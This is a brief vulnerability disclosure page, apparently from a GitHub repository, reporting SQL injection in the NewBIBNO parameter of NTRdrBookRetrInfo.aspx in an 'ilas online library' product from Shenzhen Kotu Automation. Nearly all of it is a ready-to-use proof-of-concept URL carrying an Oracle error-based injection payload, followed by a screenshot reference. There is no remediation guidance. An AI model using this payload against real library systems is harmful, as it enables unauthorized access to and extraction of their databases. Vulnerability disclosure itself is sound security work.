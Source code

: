 

## SQL injection into ilas online library

- Shenzhen Kotu Automation New Technology Co., Ltd

- NTRdrBookRetrInfo.aspx

- Parameter: NewBIBNO

### POC

```
NTRdrBookRetrInfo.aspx?BookRecno=341789&NewBIBNO=341789%20AND%206241=(SELECT%20UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(112)||CHR(112)||CHR(120)||CHR(113)||(SELECT%20(CASE%20WHEN%20(6241=6241)%20THEN%201%20ELSE%200%20END)%20FROM%20DUAL)||CHR(113)||CHR(112)||CHR(113)||CHR(106)||CHR(113)||CHR(62)))%20FROM%20DUAL)&NEWBOOK=newbook
```

![image-20240816101848450](imgs/SQL injection into ilas online library/image-20240816101848450.png)